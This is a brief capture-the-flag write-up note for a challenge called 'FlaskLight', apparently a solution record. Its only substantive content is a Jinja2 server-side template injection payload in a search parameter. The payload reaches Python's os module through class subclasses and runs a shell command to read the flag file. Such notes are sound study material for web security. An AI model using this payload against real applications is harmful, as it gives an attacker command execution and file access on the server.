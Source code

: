 ## FlaskLight

![](attachments/Pasted%20image%2020240405083918.png)

ssti

![](attachments/Pasted%20image%2020240405084017.png)

```
?search={%for(x)in().__class__.__base__.__subclasses__()%}{%if'war'in(x).__name__ %}{{x()._module.__builtins__['__import__']('os').popen('cat /flasklight/coomme_geeeett_youur_flek').read()}}{%endif%}{%endfor%}
```